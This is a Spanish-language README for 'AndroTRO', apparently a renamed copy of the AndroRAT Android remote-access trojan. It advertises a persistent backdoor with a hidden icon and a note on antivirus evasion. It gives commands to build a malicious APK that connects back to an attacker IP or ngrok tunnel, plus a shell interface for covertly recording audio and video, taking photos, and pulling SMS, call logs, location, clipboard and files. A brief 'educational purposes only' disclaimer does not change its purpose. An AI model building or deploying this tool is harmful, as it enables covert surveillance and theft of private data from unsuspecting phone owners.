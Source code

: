 **Descarga de responsabilidad**: este software está destinado únicamente a fines educativos. No soy responsable de ningún uso malicioso de la aplicación.
# AndroTRO 


[![GitHub followers](https://github.com/Plumst-37)]

AndroTro es una herramienta diseñada para controlar el sistema Android de forma remota y recuperar información del mismo. AndroTro es una aplicación cliente/servidor desarrollada en Java Android para el lado del cliente y el Servidor está en Python.

##### AndroTRO funcionará en dispositivos desde Android 4.1 (Jelly Bean) hasta Android 9.0 (Oreo) (API 16 a API 28)

> AndroTRO también funciona en Android 10 (Q), pero algunos de los comandos del intérprete serán inestables. 

## Screenshots

![AndroTro](Screenshots/5.jpg "AndroTro en acción")
## Características de AndroTro
* Puerta trasera completamente persistente
* ~~Totalmente indetectable por cualquier escáner antivirus [VirusTotal](https://www.virustotal.com/gui/file/e900b5d37ad8c8f79ca000b148253af04696a85fdfc245861cfb226dd86562df/detection)
* Icono invisible al instalar
* APK liviano que se ejecuta 24*7 en segundo plano
* La aplicación se inicia automáticamente al iniciar
* Puede grabar audio, video y tomar fotografías desde ambas cámaras.
* Explorar registros de llamadas y registros de SMS
* Obtener la ubicación actual, detalles de la tarjeta SIM, IP, dirección MAC del dispositivo


## Requisitos
  AndroTRO requiere Python3 y JAVA (o Android Studio)

## Instalacion
```
git clone https://github.com/Plumst-37/AndroTro.git
cd AndroTro
pip install -r requirements.txt
```
#### Nota:
Al clonar el repositorio usando Git bash en Windows, es posible que obtenga el siguiente error:
> error: no se puede crear el archivo \<nombre de archivo>: nombre de archivo demasiado largo

Esto se debe a que Git tiene un límite de 4096 caracteres para un nombre de archivo, excepto en Windows cuando Git se compila con msys. Utiliza una versión anterior de la API de Windows y hay un límite de 260 caracteres para un nombre de archivo.

Puede evitar esto configurando `core.longpaths` en `true`.

> git config --system core.longpaths verdadero

Debes ejecutar Git bash con privilegios de administrador.


### Modos disponibles
* `--build` - para construir la apk de Android
* `--ngrok` - para usar el túnel ngrok (a través de Internet)
* `--shell`: obtención de un shell interactivo del dispositivo

### modo `construir`

```
Uso:
  python3 androTRO.py --build --ngrok [banderas]
  Banderas:
    -p, --port Número de puerto del atacante (opcional, por defecto está configurado en 8000)
    -o, --output Nombre del archivo apk (opcional, por defecto está configurado en "karma.apk")
    -icon, --icon Icono visible después de instalar apk (de forma predeterminada está configurado como oculto)
```

```
Uso:
  python3 androTRO.py --build [banderas]
  Banderas:
    -i, --ip Dirección IP del atacante (obligatoria)
    -p, --port Número de puerto del atacante (obligatorio)
    -o, --output Nombre del archivo apk (opcional)
    -icon, --icon Icono visible después de instalar apk (de forma predeterminada está configurado como oculto).
```

O puede compilar manualmente el apk importando la carpeta [Código de Android](Android_Code) a Android Studio y cambiando la dirección IP y el número de puerto en [config.java](Android_Code/app/src/main/java/com/example/reverseshell2 /config.java) y luego puede generar el apk firmado desde `Android Studio -> Build -> Generate Signed APK(s)`
### modo `shell`
```
Uso:
  python3 androTRO.py --shell [banderas]
  Banderas:
    -i, --ip Dirección IP de Listner
    -p, --port Número de puerto de Listner
```
Después de ejecutar el modo `shell`, obtendrás un intérprete del dispositivo.

Comandos que se pueden ejecutar en el intérprete.
```
    deviceInfo                 --> devuelve información básica del dispositivo
    camList                    --> devuelve ID de cámara  
    takepic [cameraID]         --> Toma una foto de la cámara
    startVideo [cameraID]      --> comienza a grabar el video
    stopVideo                  --> deja de grabar el video y devuelve el archivo de video
    startAudio                 --> comienza a grabar el audio
    stopAudio                  --> deja de grabar el audio
    getSMS [inbox|sent]        --> devuelve sms de la bandeja de entrada o sms enviados en un archivo
    getCallLogs                --> devuelve registros de llamadas en un archivo
    shell                      --> inicia un shell sh del dispositivo
    vibrate [number_of_times]  --> hacer vibrar el dispositivo varias veces
    getLocation                --> devolver la ubicación actual del dispositivo
    getIP                      --> devuelve la ip del dispositivo
    getSimDetails              --> devuelve los detalles de todos los sim del dispositivo
    clear                      --> borra la pantalla
    getClipData                --> devolver el texto guardado actualmente desde el portapapeles
    getMACAddress              --> devuelve la dirección mac del dispositivo
    exit                       --> salir
```
En el shell sh hay algunos subcomandos.
```
    get [full_file_path] --> descarga el archivo a la máquina local (tamaño de archivo de hasta 15 MB)
    uploads [nombre de archivo] --> carga el archivo al dispositivo Android
```

## Ejemplos

* Para compilar el apk usando ngrok, que también configurará el listner:

``python3 androRAT.py --build --ngrok -o evil.apk``

* Para construir el apk usando la IP y el puerto deseados:

``python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk``

* Para conseguir el intérprete:

``python3 androRAT.py --shell -i 0.0.0.0 -p 8000``

## Ejemplos de intérpretes

* Generando APK
<p align="centro">
  <img src="Screenshots/6.JPG" width="800"/>
</p>


## HACER
* ~~ Soporte de Ngrok ~~
* Configurar multicliente
* Agregar comando de captura de pantalla

